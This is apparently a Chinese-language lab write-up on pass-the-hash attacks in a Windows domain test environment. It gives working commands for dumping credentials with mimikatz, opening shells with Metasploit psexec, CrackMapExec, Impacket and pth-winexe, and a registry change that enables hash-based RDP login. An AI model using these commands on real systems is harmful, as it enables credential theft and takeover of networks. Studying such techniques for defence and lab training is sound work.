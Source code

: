## PTH的利用
### PTH简介
path-the-hash,中文直译过来就是hash传递，在域中是一种比较常用的攻击方式。
pth攻击的流程是这样的：
1. 获取一台域内主机最高权限
2. 利用工具获取ntlm-hash
3. 使用工具利用hash尝试登录域内其他主机

### 实验环境
域控 winserver2019 192.168.50.128 192.168.6.130（双网卡）
域主机 win7 sp1 192.168.50.129（域管曾登陆过）
攻击机 物理机&kali虚拟机

### hash获取
哈希的获取一般还是mimikatz比较方便，直接用上一篇博客编译好的mimikatz上传到win7上。
运行
```shell
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> pass.txt
```
直接获得域管的哈希，因为是win7所以其实是可以直接获取明文密码的，这里假装不知道，只是用hash。
抓到的administrator的ntlm-hash是：`b0093b0887bf1b515a90cf123bce7fba`

### mimikatz的PTH
- pth开启cmd
mimikatz命令是
```
sekurlsa::pth /user:administrator /domain:no0b.net /ntlm:b0093b0887bf1b515a90cf123bce7fba
```
可以直接开启一个域管的cmd，如下图

![mimikatz_pth_cmd](.\mimikatz_pth_cmd.png)

### metasploit
metasploit在域控机器上执行
在metasploit中使用的其实还是psexec这种执行命令的工具。
具体以使用最基本的psexec为例。
```
msf5 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > set rhosts 192.168.50.129
rhosts => 192.168.50.129
msf5 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf5 exploit(windows/smb/psexec) > set smbdomain no0b.net
smbdomain => no0b.net
msf5 exploit(windows/smb/psexec) > set smbpass 00000000000000000000000000000000:b0093b0887bf1b515a90cf123bce7fba
smbpass => 00000000000000000000000000000000:b0093b0887bf1b515a90cf123bce7fba
msf5 exploit(windows/smb/psexec) > exploit
```
这样就可以获得一个shell，执行sysinfo可以看到信息，如下

![msf_psexec_shell](.\msf_psexec_shell.png)

除此之外，metasploit还有smb_login等模块不同协议可以利用PTH。

### Crackmapexec
Crackmapexec这个工具可以在kali上直接安装`apt-get install Crackmapexec`即可。
使用方式是：`crackmapexec smb ip -u Administrator -H ntlm-hash -x command`。
对域主机win7执行whoami，如下图

![msf_psexec_shell](D:\md\PTH的利用\msf_psexec_shell.png

![Crackmapexec_smb](.\Crackmapexec_smb.png)

Crackmapexec这个工具不止这些用法，日后可以单独写一篇使用技巧。
### Impacket
Impacket是一款功能非常强大的工具包，在我们与服务器交互时大有帮助。
对于pth的利用Impacket有很多工具，最直接的就是smbclient.py和psexec.py。
smbclient.py的命令是`python3 smbclient.py -hashes 00000000000000000000000000000000:ntlm-hash domain/Administrator@ip`

执行效果如下图

![impacket_smb](.\impacket_smb.png)

psexec.py的命令是`python psexec.py -hashes 00000000000000000000000000000000:ntlm-hash domain/Administrator@ip`

执行效果如下图

![impacket_psexec](.\impacket_psexec.png)

### kali PTH工具包
kali本身也是自带PTH攻击的工具包的，功能不少。
![kali-PTH](.\kali-PTH.png)

以使用pth-winexe来进行PTH攻击。
命令是`pth-winexe -U domain/Administrator%00000000000000000000000000000000:ntlm-hash //ip cmd`

![pth-winexe](.\pth-winexe.png)


### pth-RDP
pth攻击的利用还可以用来远程桌面登录。
这里以mimikatz为例。
mimikatz的命令是`sekurlsa::pth /user:administrator /domain:no0b.net /ntlm:b0093b0887bf1b515a90cf123bce7fba "/run:mstsc.exe /restrictedadmin"
`

![mimikatz_pth_rdp](.\mimikatz_pth_rdp.png)

值得注意的是这里需要远程桌面开启restrictedadmin模式。开启的命令是
`REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
`
同时这个模式对RDP的版本也有要求，最低未8.1。目前win8/winserver2012R2及以上的版本都是高于8.1的，只需要改注册表就可以打开。
但是本次使用的win7就需要安装一系列补丁从而升级到rdp8.1版本。(查看rdp版本可以打开rdp的窗口后右键查看关于)
![RDP_about](.\RDP_about.png)
对于win7 sp1升级到RDP8.1，以下安装的补丁仅供参考。
![win7sp1_to_rdp8.1](.\win7sp1_to_rdp8.1.png)

## 参考链接
https://www.4hou.com/posts/DPqY （原文链接：https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/）
